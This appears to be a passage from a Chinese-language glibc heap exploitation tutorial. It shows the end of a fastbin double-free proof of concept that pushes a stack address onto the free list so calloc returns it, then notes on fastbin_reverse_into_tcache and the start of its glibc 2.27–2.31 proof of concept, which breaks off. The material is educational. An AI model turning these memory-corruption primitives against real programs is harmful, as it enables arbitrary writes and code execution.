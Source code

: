 ```C

	free(a);
	free(b);
	free(a);
	unsigned long long *d = calloc(1,8);

	fprintf(stderr, "1st calloc(1,8): %p\n", d);
	fprintf(stderr, "2nd calloc(1,8): %p\n", calloc(1,8));

	stack_var = 0x20;

	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d) - 1); //注意对齐

	fprintf(stderr, "3rd calloc(1,8): %p, putting the stack address on the free list\n", calloc(1,8));

	void *p = calloc(1,8); 

	fprintf(stderr, "4th calloc(1,8): %p\n", p); 
	// assert((long)__builtin_return_address(0) == *(long *)p);
}
```

### fastbin_reverse_into_tcache

#### 知识点

* libc 2.32以上tache 和fastbin 会有地址加密
* 程序每当从fastbin/small bin中取出一个堆块，会尝试把该bin中剩余的堆块拿出来去填充tcache。

#### POC

##### glibc 2.27 - glibc 2.31

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
  setbuf(stdout, NULL);
  char* ptrs[14];
  size_t i;
  for (i = 0; i < 14; i++) {
    ptrs[i] = malloc(allocsize);
  }

  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }

  char* victim = ptrs[7];

  free(victim);

  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }

  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));
```